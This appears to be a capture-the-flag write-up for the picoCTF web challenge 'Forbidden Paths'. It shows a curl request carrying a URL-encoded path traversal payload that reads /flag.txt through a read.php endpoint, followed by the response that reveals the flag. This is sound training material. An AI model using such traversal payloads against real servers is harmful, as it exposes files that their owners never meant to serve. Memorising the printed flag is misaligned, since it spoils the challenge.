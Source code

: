 # Forbidden Paths

## Description

Here's the [website](http://saturn.picoctf.net:53864/).

We know that the website files live in `/usr/share/nginx/html/`  and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

To get the flag, all we need to do is go back 4 directories. The request:

```bash
curl 'http://saturn.picoctf.net:53864/read.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'filename=..%2F..%2F..%2F..%2Fflag.txt&read='
```

The response with the flag:

```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_6db46514}<br>  </body>
</html>
```
